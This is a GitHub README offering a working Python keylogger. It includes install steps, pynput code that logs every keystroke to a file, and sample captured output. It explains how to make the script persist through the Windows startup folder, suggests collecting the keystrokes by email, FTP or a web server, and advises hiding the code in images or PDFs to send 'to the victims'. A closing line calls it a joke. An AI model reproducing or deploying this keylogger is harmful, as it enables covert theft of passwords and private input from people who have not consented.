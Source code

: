 ## python3_Keylogger ♘
python3 keylogger 

1) install python 3 then install pynput with following command
	```python
	   python -m pip install pynput
	```
2) output was automatically saved on script directory that was running <br>
3) Use Shell as follow<br>
  3-1) win+R<br>
  3-2) paste shell:startup then enter<br>
  3-3) copy keylogger.py in folder that apeared before<br>
  3-4) change dir to different location<br>

### you can use SMTP Email or FTP Client or Web Server to get KeyStroke
#### ☕☕ Good Luck! (mrt.mycloud@gmail.com)

```python
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
	level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```
output as follow
```C#
2021-04-10 16:46:43,841: Key.backspace
2021-04-10 16:46:44,298: 'p'
2021-04-10 16:46:44,578: 'y'
2021-04-10 16:46:44,826: 't'
2021-04-10 16:46:44,922: 'h'
2021-04-10 16:46:45,154: 'o'
2021-04-10 16:46:45,354: 'n'
2021-04-10 16:46:45,898: <99>
2021-04-10 16:46:47,178: <193>
2021-04-10 16:46:48,114: Key.shift_r
2021-04-10 16:46:48,474: '+'
2021-04-10 16:46:49,298: Key.backspace
2021-04-10 16:46:50,346: Key.shift_r
```
#### this keylogger can be used on windows/linux/Mac
#### ʕ•́ᴥ•̀ʔ you can Hide this code on .jpg/.png/.pdf with "steganography" then send to the victims
#### 🎲This file is just an internet joke and nothing else🎲
